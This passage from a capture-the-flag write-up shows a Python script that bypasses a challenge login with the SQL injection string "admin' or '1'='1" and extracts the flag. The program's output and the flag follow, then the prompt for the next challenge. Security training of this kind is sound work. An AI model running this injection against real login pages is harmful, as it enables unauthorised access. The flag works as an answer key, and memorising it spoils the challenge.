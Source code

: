However, I wrote a python code to automate the process as follows:
```
import requests
from bs4 import BeautifulSoup
import re

# URL of the login page
login_url = "http://159.223.159.164/login.php"

# Form data with SQL injection credentials
login_data = {
    'username': "admin' or '1'='1",
    'password': "admin' or '1'='1"
}

# Start a session to persist cookies and session info
with requests.Session() as session:
    # Send a POST request to login
    response = session.post(login_url, data=login_data)
    
    # Check if login was successful by inspecting response content
    if response.status_code == 200:
        # Parse the response content
        soup = BeautifulSoup(response.text, 'html.parser')
        
        # Find all text starting with 'NICC{' in the response
        flag = re.search(r'NICC\{[^\}]+\}', response.text)
        
        if flag:
            print("Found the flag:", flag.group(0))
        else:
            print("No flag found in the response.")
    else:
        print("Login failed. Status code:", response.status_code)
```
This code sends a POST request to the login page with the SQL injection credentials, checks if the login successfull or not. If its success will find the text starting with `NICC\{[^\}]+\}` as a Flag format. Here are the output of the program:
```
╭─ ~/Cryptid-Hunter ────────────────────────────────────────── ✔  05:22:35 ─╮
╰─ python3 cryptid-hunters.py                                                ─╯
Found the flag: NICC{1N_PuRSu1T_0F_4LL13S}
```

## Paranormal Picture [Web]
Description: One of our recruits is a massive conspiracy theorist. Strangely enough, he has expressed not only that everything is the bite of 87 but also that there's something strange going on in the dark web that involves Dr. Tom Lei. Though he is a little bit nuts, we think he may be on to something. Figure out what's going on before it's too late!

Link: 
> http://paranormal-picture.niccgetsspooky.xyz/>
